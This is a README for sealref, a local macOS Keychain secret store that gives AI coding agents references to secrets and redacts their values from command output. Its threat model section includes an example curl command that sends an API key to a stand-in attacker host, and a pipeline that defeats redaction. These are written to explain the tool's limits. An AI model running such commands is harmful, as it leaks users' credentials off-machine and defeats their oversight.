




# sealref

A local, macOS Keychain-backed secret store for AI coding agents: the agent
works with references like `sealref://stripe/API_KEY`, and the key itself stays
out of the chat.

## Why

When an agent needs an API token, the quickest thing to do is paste it into the
chat. From then on it is part of the transcript: saved in the agent's session
history, sent to the model provider with every later request, and kept in
whatever logs and history are retained on either side.

The indirect routes avoid that, but they are tedious. You write the key into a
`.env` file (which the agent can still read back into the chat), export it in
the shell before starting the agent, copy it by hand into each command, or set
up a vault CLI and wire it into every command the agent runs.

## How sealref fixes it

The agent asks for a missing secret through an MCP tool, `request_secret`. A
local page opens in your browser, you type the value there, and it is stored in
the macOS Keychain; the agent gets back only the reference
`sealref://stripe/API_KEY`. To use the key, the agent runs its command through
`sealref run`, which puts the value into that one process's environment and
replaces the raw value and its base64 / URL-encoded forms in the child's
line-buffered stdout/stderr with `«redacted:stripe/API_KEY»` (see
[Threat model](#threat-model) for limits).

```
                 the chat contains           command output that echoes the key shows
pasting the key  sk-test-EXAMPLE             sk-test-EXAMPLE
with sealref     sealref://stripe/API_KEY    «redacted:stripe/API_KEY»
```

This guards against a secret landing in a transcript by accident. It does not
stop an agent that is trying to get the value; see [Threat model](#threat-model).

## Screenshots

Captured from a real run of the MCP server, CLI and local page, with dummy
values such as `sk-test-EXAMPLE`. Captured on Linux with a stand-in `security`
helper (no macOS Keychain on the capture box). MCP/CLI outputs are real;
panels 2–3 are styled HTML frames, not raw Terminal.app.

**1. The agent calls `request_secret`; you type the value into a local page.**
The banner shows the reason the agent gave. The page is served on 127.0.0.1,
and that server stops once the value is saved.



**2. What the agent gets back over MCP: names and refs, never the value.**



**3. Using the key: `sealref run` injects it into the command and scrubs the output.**
httpbin.org echoes the request headers back, so the real key was sent and the
output still shows only the placeholder.



**4. Managing secrets with `sealref ui`.** Values are masked; "Copy ref" copies
the reference, not the value.



## Install

Requires macOS and Python 3 (tested on 3.12). The CLI uses only the standard
library. The MCP server needs `mcp` 1.x, run through `uv` so nothing is
installed into your environment.

```sh
git clone https://github.com/anhermon/sealref ~/src/sealref
ln -s ~/src/sealref/bin/sealref /usr/local/bin/sealref   # or add bin/ to PATH
brew install uv                                              # for the MCP server
```

## Quickstart

```sh
sealref ui                       # open the local page, create a group, add keys
sealref groups
sealref keys stripe              # key names and refs, no values
sealref run --group stripe -- sh -c 'echo "key length: ${#API_KEY}"'
```

Then register the MCP server (next section) so your agent can list refs and
call `request_secret` instead of asking you to paste a key.

## MCP setup (Claude Code)

```sh
claude mcp add sealref --scope user -- \
  uv run --directory /absolute/path/to/sealref --with "mcp==1.29.0" \
  python -m sealref.mcp_server
```

Equivalent `.mcp.json`:

```json
{
  "mcpServers": {
    "sealref": {
      "command": "uv",
      "args": ["run", "--directory", "/absolute/path/to/sealref",
               "--with", "mcp==1.29.0", "python", "-m", "sealref.mcp_server"]
    }
  }
}
```

`mcp` is pinned to 1.x because 2.0 removed `mcp.server.fastmcp`, which the
server uses. Tools: `list_groups`, `list_keys`, `has_secret`,
`request_secret`, `usage_hint`. All return names or refs, never values.

## The agent workflow

1. The agent calls `list_keys` / `has_secret` over MCP and sees only refs.
2. If a secret is missing, it calls `request_secret(group, key, reason)`. A
   local page opens in your browser; you type the value there. The tool
   returns the ref, not the value. Nothing is pasted into chat.
3. To use it, the agent runs the real command through sealref:

   ```sh
   sealref run --ref sealref://stripe/API_KEY -- sh -c 'curl -s https://api.stripe.com/v1/balance -u "$API_KEY:"'
   sealref run --group stripe -- ./deploy.sh
   ```

   The value goes into the child's environment. The child's stderr is merged
   into its stdout, and that combined output comes back on sealref's stdout.
   Redaction is line-based: in each line, every injected value, and its base64
   and URL-encoded forms, is replaced by `«redacted:stripe/API_KEY»`. See
   [Threat model](#threat-model) for what that does not catch.

There is no MCP tool and no CLI command that prints a value. That is the
design; see [Threat model](#threat-model) for what it does and does not buy you.

## CLI

```
sealref groups
sealref keys <group>
sealref ui [--port N]
sealref request <group> <key> [--reason TEXT]
sealref run [--group G]... [--ref sealref://g/k[=ENVNAME]]... -- <cmd> [args...]
```

`--group G` injects every key in G under its own name. `--ref` injects one key,
optionally under another env var name. `run` exits with the child's exit code.
The child's stderr is merged into its stdout; both come out, redacted, on
`run`'s stdout.
`run` does not expand `$VARS` itself; wrap in `sh -c` if the command line needs
them. Group names match `[A-Za-z0-9_.-]+`; key names must be valid env var names.

## How it works

Values live in the Keychain: service `vaultlet:<group>`, account `<key>`. An
index of group and key names (no values) is kept in `~/.vaultlet/index.json`,
mode 0600. Writes pass the value to `security -i` on stdin, so it does not
appear in `ps`. The management page binds to 127.0.0.1 only, rejects requests
with a foreign `Host` or `Origin`, and its API never returns a value. Only
`sealref run` reads values back.

## Threat model

sealref protects against a secret *accidentally* landing in an agent
transcript, shell history, or log. It is not a sandbox against an agent that
wants the value.

- Anything running as your user can read the Keychain item with
  `security find-generic-password -w`. sealref adds no barrier there.
- The agent chooses the command that `sealref run` executes. A command such as
  `sh -c 'echo $API_KEY | rev'` defeats redaction, and
  `curl https://attacker.example -d "$API_KEY"` sends the value off-machine.
  Review what the agent runs, or gate `sealref run` behind your agent's
  permission prompts.
- The child process can read its own environment, and so can anything else
  running as you that can inspect it.
- Redaction is line-based. A value split across lines, or in a stream that never
  emits a newline, can pass through. Encodings other than raw, base64 and
  URL-quoted are not caught.
- Base64 detection covers the base64 of the value on its own. The value
  base64-encoded together with other text, such as an HTTP Basic `user:key`
  credential, is generally not caught.
- Values shorter than 4 characters are not redacted (a warning is printed).
- Values cannot contain newlines.
- `request_secret` shows the agent-supplied `reason` text on the page. It is
  escaped, but a misleading reason can still talk you into entering a secret
  you should not. Read it.
- macOS only. There is no Linux or Windows backend.

See [SECURITY-REVIEW.md](SECURITY-REVIEW.md) for the review notes.

## How it differs, and when not to use it

- **envchain** stores secrets in the Keychain and injects them into a command's
  environment. That is sealref's `run`, minus refs, the MCP server, the entry
  page and output redaction. If you only want Keychain-to-env, use envchain.
- **1Password CLI (`op run`)** resolves `op://` references into a child's
  environment and can mask secrets in output. This is the closest design, and
  it is more mature, cross-platform, and supports teams, biometric unlock and
  rotation. If you already use 1Password, use it. sealref's difference is the
  agent-facing piece: MCP tools and a browser form so an agent can ask for a
  secret without seeing it.
- **Infisical, Doppler, HashiCorp Vault**: hosted or self-hosted secret
  managers with access control, audit logs, rotation and team sharing. Use these
  for anything shared or production. sealref is a single-user local store.
- **sops / age**: encrypted secret files you commit alongside code. A different
  problem (secrets in version control, for people and CI), and the decrypted
  value still reaches whatever reads the file.
- **direnv**: loads environment variables per directory. It has no secret
  storage and no redaction; the values end up in your shell.
- **Agent-specific tools**: several MCP servers and agent plugins expose secret
  managers to agents. I have not surveyed them exhaustively. Any that return
  values to the model put the value in the transcript, which is the case
  sealref exists to avoid.

Do not use sealref if you need Linux or Windows, team sharing, audit logging,
rotation, a hardened boundary against a hostile agent, or production secrets.

## Renamed from vaultlet (compatibility)

sealref was called vaultlet. Existing setups keep working, with one output change:

- The `vaultlet` command still works (`bin/vaultlet`); like `sealref`, it now prints `sealref://` refs.
- Refs are accepted in both schemes everywhere: `sealref://g/k` and `vaultlet://g/k`.
- Refs are *printed* as `sealref://`. If a script of yours still expects
  `vaultlet://` output, set `SEALREF_REF_SCHEME=vaultlet` or use
  `sealref --ref-scheme vaultlet keys <group>`.
- Storage is unchanged: Keychain service `vaultlet:<group>` and `~/.vaultlet/`.
  No migration is needed or performed.
- MCP: tool names are unchanged. `python -m vaultlet.mcp_server` keeps working
  and reports server name `vaultlet`; `python -m sealref.mcp_server` reports
  `sealref`. Register under whichever name you like.

## Development

```sh
python3 -m unittest -v test_sealref
```

The Keychain round-trip test writes and deletes a Keychain item with service
`vaultlet:sealref-test-integration` and account `TEST_KEY`. Set `SEALREF_SKIP_KEYCHAIN=1` (or legacy `VAULTLET_SKIP_KEYCHAIN=1`) to skip it.

## License

MIT. See [LICENSE](LICENSE).
